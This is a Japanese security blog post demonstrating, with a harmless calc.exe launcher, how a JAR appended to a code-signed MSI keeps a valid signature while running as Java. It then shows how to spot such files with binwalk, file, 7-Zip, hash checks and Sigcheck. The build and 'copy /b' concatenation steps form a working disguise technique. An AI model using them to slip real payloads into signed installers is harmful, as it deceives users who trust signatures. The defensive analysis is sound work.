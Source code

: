 ```yaml
---
layout: post
title:  "malicious jar appended to msi"
date:   2019-01-28
permalink: /security/:title
categories: Security
tags: malware jar msi
excerpt: VirusTotal blogで2019.1.15に紹介されたマルウェア配信テクニックを実証します。
---
```


* content
{:toc}
 
# 初めに

このポストでは、コード署名済みmsiファイルに悪意あるJARを追加する経験を通じて、そのような手法で作成されたファイルを見極める方法を考察します。

2019年01月15日にVirusTotalブログに「悪意あるJARファイルをコード署名済みmsiファイルに追加する手法」の注意喚起が掲載されました。
コード署名とは信頼できるベンダーによって提供されたソフトウェアが改ざんされていない事を確認する手段の一つです。
コード署名が施されたexeファイルを改ざんすると署名は無効化されますが、msiファイルの末尾に悪意あるコードを追加した場合はその限りではありません。

この抜け穴は悪意あるJARファイルを実行する場面で有効です。
JARファイルはZIPフォーマットを採用しており、ファイル末尾のセントラルディレクトリを参照してアーカイブされたリソースを読み取ります。
つまり、ファイルの先頭がどのようなデータであろうと、末尾nバイトが正常なデータはJARとして機能します。

# 実行可能JARを作る

Windows calcを起動するだけのjavaプログラムを書きます。

```
public class Malware{
  public static void main(String[] args){
    try{
      Runtime.getRuntime().exec("cmd /c calc.exe");
    }catch(Exception e){
      e.printStackTrace();
    }
  }
}
```

エントリーポイントを指定するためにマニフェストを書きます。

```
Main-Class: Malware
```

コンパイルしてJARにまとめます。

```
> javac Malware.java
> jar cfm simple.jar mymanifest *.class
```

出来上がったsimple.jarをダブルクリックするとWindows calcが起動します。

# MSIに埋め込む

適当な署名済みMSIファイルを用意します。

![](/images/appendedmsi/capture01.png)

MSIファイルの後ろにsimple.jarを結合します。

```
> copy /b elasticsearch-6.5.4.msi + simple.jar attached.jar
```

attached.jarのプロパティから有効なデジタル署名を確認できますが、ダブルクリックするとWindows Calcが起動します。
正規のインストーラーに偽装した悪意あるJARを拡散するシナリオが想定できます。

<iframe width="560" height="315" src="https://www.youtube.com/embed/klDeYL5KzM4" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

JARファイルを少し書き換えれば、Windows Calcが起動した後で本来のMSIファイルの挙動に繋げて、悪意ある挙動をカムフラージュすることも出来そうです。

# 改ざんを見極める

JARを埋め込んだMSIにどのような特徴があるのか調べました。

- バイナリが違うので既知のシグネチャにはマッチしません
- ハッシュも変わります
- 元がMSIなのでマジックナンバーがPKではありません

  ![](/images/appendedmsi/capture02.png)

- ファイル種別はMSI Installerです

  ```
  root@user-VirtualBox:/tmp# file attached.jar
  attached.jar: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.2, MSI Installer
  ```

- x509証明書の後ろにZIPデータが続いています

  ```
  root@user-VirtualBox:/tmp# binwalk attached.jar

  DECIMAL       HEXADECIMAL     DESCRIPTION
  --------------------------------------------------------------------------------
  20480         0x5000          Microsoft Cabinet archive data, 104004344 bytes, 336 files
  1778894       0x1B24CE        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2428408       0x250DF8        Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  2582000       0x2765F0        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2732443       0x29B19B        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.DSA
  ...(snip)...
  105941412     0x65089A4       XML document, version: "1.0"
  105947648     0x650A200       Microsoft Cabinet archive data, 3707320 bytes, 10 files
  109688426     0x689B66A       eCos RTOS string reference: "eCostInitializeFileCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeature"
  109688444     0x689B67C       eCos RTOS string reference: "eCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeaturesPublishProductINS"
  109772948     0x68B0094       Certificate in DER format (x509 v3), header length: 4, sequence length: 1177
  109774129     0x68B0531       Certificate in DER format (x509 v3), header length: 4, sequence length: 1386
  109775519     0x68B0A9F       Certificate in DER format (x509 v3), header length: 4, sequence length: 1504
  109780992     0x68B2000       Zip archive data, at least v2.0 to extract, name: META-INF/
  109781053     0x68B203D       Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  109781208     0x68B20D8       Zip archive data, at least v2.0 to extract, name: Malware.class
  109781808     0x68B2330       End of Zip archive
  ```

- アーカイブされたファイルを参照できます

  ```
  root@user-VirtualBox:/tmp# 7za L attached.jar

  7-Zip (A) [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
  p7zip Version 9.20 (locale=C,Utf16=off,HugeFiles=on,1 CPU)

  Listing archive: attached.jar

  --
  Path = attached.jar
  Type = zip
  Physical Size = 108002936
  Offset = 1778894

     Date      Time    Attr         Size   Compressed  Name
  ------------------- ----- ------------ ------------  ------------------------
  2019-01-27 18:06:50 D....            0            2  META-INF
  2019-01-27 18:06:50 .....           90           89  META-INF/MANIFEST.MF
  2019-01-27 17:37:30 .....          535          357  Malware.class
  ------------------- ----- ------------ ------------  ------------------------
                                     625          448  2 files, 1 folders
  ```

# まとめ

悪意あるJARを署名済みMSIに埋め込むことは非常に簡単です。
そのようにして作成された悪意あるファイルは元のデジタル署名を引き継ぐため、一見しただけでは正常なファイルのように見えます。

幸いなことに、悪意あるJARファイルを見極めるのに役立ついくつかの観点があります。
ファイルを実行する前に少し立ち止まって、これに目を向けてください。

- ファイルのハッシュが公式サイトに掲載されている値と一致しているか
- ファイルのマジックナンバーと拡張子が一致しているか
- ファイルの末尾に不審なZIPデータが付いていないか

また、VirusTotalブログに記載されている通り、MS Sysinternal Sigcheckの最新版には今回の改ざんを検知する新たな機能が実装されています。VirusTotalもSigcheckを利用しており、今回のファイルに対してSigned but the filesize is invalid (the file is too large)という警告を上げてくれます。

# 参考URL

- [VirusTotal: Distribution of malicious JAR appended to MSI files signed by third parties](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html)
- [Wikipedia: ZIPファイルフォーマット](https://ja.wikipedia.org/wiki/ZIP_%28%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%83%95%E3%82%A9%E3%83%BC%E3%83%9E%E3%83%83%E3%83%88%29)
